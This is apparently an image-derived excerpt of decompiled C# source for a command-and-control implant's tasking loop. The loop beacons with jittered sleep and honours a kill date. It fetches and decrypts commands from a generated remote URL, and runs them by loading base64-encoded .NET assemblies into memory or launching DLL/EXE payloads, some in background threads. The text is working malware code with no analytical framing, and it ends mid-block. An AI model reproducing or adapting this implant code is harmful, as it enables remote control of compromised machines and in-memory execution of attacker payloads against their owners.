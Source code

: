 ```csharp
	while (!manualResetEvent.WaitOne(new Random().Next((int)((double)(num * 1000) * (1.0 - result)), (int)((double)(num * 1000) * (1.0 + result)))))
	{
		if (DateTime.ParseExact(KillDate, "yyyy-MM-dd", CultureInfo.InvariantCulture) < DateTime.Now)
		{
			Run = false;
			manualResetEvent.Set();
			continue;
		}
		stringBuilder.Length = 0;
		try
		{
			string text = "";
			cmd = null;
			try
			{
				cmd = GetWebRequest(null).DownloadString(UrlGen.GenerateUrl());
				text = Decryption(Key, cmd).Replace("\0", string.Empty);
			}
			catch
			{
				goto end_IL_00f1;
			}
			if (!text.ToLower().StartsWith("multicmd"))
			{
				continue;
			}
			string text2 = text.Replace("multicmd", "");
			string[] array = text2.Split(new string[1] { "!d-3dion@LD!-d" }, StringSplitOptions.RemoveEmptyEntries);
			string[] array2 = array;
			foreach (string text3 in array2)
			{
				taskId = text3.Substring(0, 5);
				cmd = text3.Substring(5, text3.Length - 5);
				if (cmd.ToLower().StartsWith("exit"))
				{
					Run = false;
					manualResetEvent.Set();
					break;
				}
				if (cmd.ToLower().StartsWith("loadmodule"))
				{
					string s = Regex.Replace(cmd, "loadmodule", "", RegexOptions.IgnoreCase);
					Assembly assembly = Assembly.Load(Convert.FromBase64String(s));
					Exec(stringBuilder.ToString(), taskId, Key);
				}
				else if (cmd.ToLower().StartsWith("run-dll-background") || cmd.ToLower().StartsWith("run-exe-background"))
				{
					Thread thread = new Thread((ThreadStart)delegate
					{
						rAsm(cmd);
					});
					Exec("[+] Running background task", taskId, Key);
					thread.Start();
				}
				else if (cmd.ToLower().StartsWith("run-dll") || cmd.ToLower().StartsWith("run-exe"))
				{
					stringBuilder.AppendLine(rAsm(cmd));
				}
```